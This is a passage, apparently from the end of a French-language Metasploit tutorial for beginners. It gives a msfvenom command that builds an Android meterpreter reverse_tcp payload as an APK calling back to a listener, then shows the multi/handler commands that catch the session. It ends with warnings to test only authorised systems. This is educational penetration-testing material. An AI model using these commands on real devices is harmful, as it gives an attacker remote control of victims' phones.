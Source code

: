 Avec msfvenom, vous pouvez générer des payloads pour différents systèmes. Par exemple, pour Android :<br>

bash<br>

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.74.128 LPORT=8080 -o /root/Desktop/payload.apk<br>

Configurez un handler avec :<br>

bash<br>

use exploit/multi/handler<br>

set payload android/meterpreter/reverse_tcp<br>

run<br>

###Cela permet de tester des applications mobiles, une fonctionnalité inattendue pour ceux qui se concentrent uniquement sur les réseaux.
Conseils et Précautions<br>

Pratiquer sur des systèmes autorisés est crucial. Utilisez Metasploitable, téléchargeable sur Rapid7.<br>

# Ne testez jamais sur des systèmes sans permission, car cela peut être illégal.

### Explorez les ressources supplémentaires comme HackTheBox pour des modules de formation, ou StationX pour des guides détaillés.
## <span style="color: purple">Conclusion</span>
Ce tutoriel couvre les bases et des exemples avancés de Metasploit, adaptés aux débutants. En suivant ces étapes, vous devriez être capable de comprendre comment rechercher, configurer, et exploiter des vulnérabilités, tout en explorant des fonctionnalités comme Meterpreter et msfvenom. 

